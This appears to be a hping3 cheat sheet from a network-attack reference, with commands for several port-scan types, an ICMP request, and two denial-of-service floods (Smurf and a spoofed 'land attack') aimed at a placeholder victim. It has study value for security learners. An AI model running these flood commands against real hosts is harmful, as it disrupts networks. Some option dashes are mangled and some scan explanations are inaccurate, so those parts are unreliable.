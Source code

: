 <mark style="color:purple;">**Checking port:**</mark> Here hping3 will send a Syn packet to a specified port (80 in our example). We can control also from which local port will start the scan (5050).

```
hping3 — traceroute -V -S -p 80 -s 5050 testpage.com
```

<mark style="color:purple;">**Other types of ICMP:**</mark> This example sends a ICMP address mask request ( Type 17 ).

```
hping3 -c 1 -V -1 -C 17 testpage.com
```

For testing other ICMP types check out the [`ICMP`](https://github.com/7h3w4lk3r/THE\_HIVE/blob/master/network-attacks/broken-reference/README.md) protocol section.

<mark style="color:purple;">**Other types of Port Scanning:**</mark> First type we will try is the FIN scan. In a TCP connection the FIN flag is used to start the connection closing routine. If we do not receive a reply, that means the port is open. Normally firewalls send a RST+ACK packet back to signal that the port is closed.

```
hping3 -c 1 -V -p 80 -s 5050 -F testpage.com
```

<mark style="color:purple;">**Ack Scan:**</mark> This scan can be used to see if a host is alive (when Ping is blocked for example). This should send a RST response back if the port is open.

```
hping3 -c 1 -V -p 80 -s 5050 -A testpage.com
```

<mark style="color:purple;">**Xmas Scan:**</mark> This scan sets the sequence number to zero and set the URG + PSH + FIN flags in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP Xmas scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -M 0 -UPF testpage.com
```

<mark style="color:purple;">**Null Scan:**</mark> This scan sets the sequence number to zero and have no flags set in the packet. If the target device’s TCP port is closed, the target device sends a TCP RST packet in reply. If the target device’s TCP port is open, the target discards the TCP NULL scan, sending no reply.

```
hping3 -c 1 -V -p 80 -s 5050 -Y testpage.com
```

<mark style="color:purple;">**Smurf Attack:**</mark> This is a type of denial-of-service attack that floods a target system via spoofed broadcast ping messages.

```
hping3 -1 — flood -a VICTIM_IP BROADCAST_ADDRESS
```

<mark style="color:purple;">**DOS Land Attack:**</mark>

```
hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 — flood — rand-source VICTIM_IP
```
